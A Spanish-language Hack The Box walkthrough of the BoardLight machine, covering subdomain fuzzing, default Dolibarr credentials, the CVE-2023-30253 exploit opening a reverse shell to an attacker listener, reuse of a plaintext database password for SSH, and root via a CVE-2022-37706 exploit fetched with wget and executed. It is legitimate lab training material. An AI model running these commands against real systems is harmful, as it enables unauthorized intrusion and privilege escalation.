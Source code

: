 ```yaml
---
title: BoardLight
description: Boardlight es una máquina de dificultad fácil que cuenta con una instancia de dolibarr vulnerable a CVE-2023-30253. Esta vulnerabilidad se aprovecha para obtener acceso como www-data. Después de enumerar y volcar el contenido del archivo de configuración web, se encuentran las credenciales en texto plano que conducen al acceso ssh de la máquina. Al enumerar el sistema, se identifica un binario SUID relacionado con enlightenment que es vulnerable a una escalada de privilegios a través de CVE-2022-37706 y puede ser explotado para obtener un shell con privilegios de root.
date: 2024-06-03
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-boardlight/boardlight_logo.png
categories:
  - Hack_The_Box
  - Machines
tags:
  - linux
  - hack_the_box
  - fuzzing_web
  - rce
  - cve
  - data_leaks
  - misconfigurations
  - suid
  - ssh
  - http
  - tcp
  - information_gathering
  - web_analysis
  - cve_exploitation
  - lateral_movement
  - privilege_escalation


---
```

## Information Gathering

```terminal
/home/kali/Documents/htb/machines/boardlight:-$ sudo nmap -p- -sS --min-rate 5000 -vvv -n -Pn 10.10.11.11 -oG map1
Host: 10.10.11.11 ()	Status: Up
Host: 10.10.11.11 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///

/home/kali/Documents/htb/machines/boardlight:-$ sudo nmap -sCV -p22,80 -vvv -oG map2 10.10.11.11
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

![](/assets/img/htb-writeup-boardlight/boardlight1_1.png)

```terminal
/home/kali/Documents/htb/machines/boardlight:-$ dirb http://10.10.11.11 /usr/share/wordlists//seclists/Discovery/DNS/subdomains-top1million-20000.txt
==> DIRECTORY: http://10.10.11.11/img/
==> DIRECTORY: http://10.10.11.11/css/
==> DIRECTORY: http://10.10.11.11/js/

/home/kali/Documents/htb/machines/boardlight:-$ ffuf -u http://board.htb/ -H 'Host: FUZZ.board.htb' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
```

![](/assets/img/htb-writeup-boardlight/boardlight1_2.png)

```terminal
/home/kali/Documents/htb/machines/boardlight:-$ curl -s http://board.htb | wc -c
15949
```
El resultado '15949' indica que la respuesta de la página tiene 15,949 bytes.

```terminal
/home/kali/Documents/htb/machines/boardlight:-$ ffuf -u http://board.htb -H 'Host: FUZZ.board.htb' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ic -t 200 -c -fs 15949
crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 1328ms]
```
'fs 15949' filtra las respuestas por tamaño. En este caso, se filtran respuestas que tienen un tamaño de 15,949 bytes (el mismo tamaño que el de la página inicial).

El subdirectorio que se encontró 'crm' devuelve un código de estado HTTP 200 con un tamaño de 6360 bytes. El hecho de que el tamaño sea diferente al de la página inicial (15949 bytes) indica que este directorio tiene contenido distinto.

---
## Web Analysis & CVE Exploitation

```terminal
/home/kali/Documents/htb/machines/boardlight:-$ echo '10.10.11.11\tboard.htb\tcrm.board.htb' | sudo tee -a /etc/hosts
```

![](/assets/img/htb-writeup-boardlight/boardlight2_1.png)

Antes de buscar vulnerabilidades para 'Dolibarr', pruebo autentificarme con credenciales por defecto.

El login resulta valido con 'user:admin', 'password:admin'.

![](/assets/img/htb-writeup-boardlight/boardlight2_2.png)

Dolibarr 17.0.0 es vulnerable a Remoted Code Execution.

<https://nvd.nist.gov/vuln/detail/CVE-2023-30253>

<https://github.com/Rubikcuv5/cve-2023-30253>

```terminal
/home/kali/Documents/htb/machines/boardlight:-$ git clone https://github.com/Rubikcuv5/cve-2023-30253.git

/home/kali/Documents/htb/machines/boardlight:-$ nc -lnvp 4444
	listening on [any] 4444 ...

/home/kali/Documents/htb/machines/boardlight:-$ python3 CVE-2023-30253.py --url http://crm.board.htb/ -u admin -p admin -r 10.10.16.5 4444
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection

	... connect to [10.10.16.5] from (UNKNOWN) [10.10.11.11] 58436

www-data@boardlight:~$ whoami
www-data
```

---
## Lateral Movement

Despues de conseguir el foothold, enumero el sistema y encuentro la contraseña ssh para el usuario 'larissa'.
```terminal
www-data@boardlight:~$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
```
```
www-data@boardlight:~/html/crm.board.htb$ find . -name \*conf\* 2>/dev/null
./htdocs/conf/conf.php

www-data@boardlight:~/html/crm.board.htb$ cat html/htdocs/conf/conf.php
$dolibarr_main_db_pass='serverfun2$2023!!';
```
```terminal
/home/kali/Documents/htb/machines/boardlight:-$ ssh larissa@10.10.11.11
larissa@10.10.11.11's password: serverfun2$2023!!

larissa@boardlight:~$ cat user.txt
```
---
## Privilege Escalation & CVE Exploitation

Listo privilegios SUID.

```terminal
larissa@boardlight:~$ find / -perm -4000 2>/dev/null
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
```
La version de 'enlightement' es vulnerable, CVE-2022-37706.

```terminal
larissa@boardlight:~$ dpkg -l | grep enlightenment
hi  enlightenment             0.23.1-4          amd64        X11 window manager based on EFL
hi  enlightenment-data        0.23.1-4          all          X11 window manager based on EFL - run time data files
```
Utilizo el siguiente exploit, <https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit>

```terminal
/home/kali/Documents/htb/machines/boardlight:-$ git clone https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit.git
/home/kali/Documents/htb/machines/boardlight:-$ python3 -m http.server 8001
```
```terminal
larissa@boardlight:/tmp$ wget http://10.10.16.5:8001/exploit.sh
larissa@boardlight:/tmp$ chmod +x exploit.sh
```
```terminal
larissa@boardlight:/tmp$ ./exploit.sh
```
![](/assets/img/htb-writeup-boardlight/boardlight3_1.png)

```terminal
python -c 'import pty;pty.spawn("/bin/bash")'
root@boardlight:~$ cat /root/root.txt
```

> <a href="https://www.hackthebox.com/achievement/machine/1521382/608" target="_blank">Boardlight Machine from Hack The Box has been Pwned</a>
{: .prompt-tip }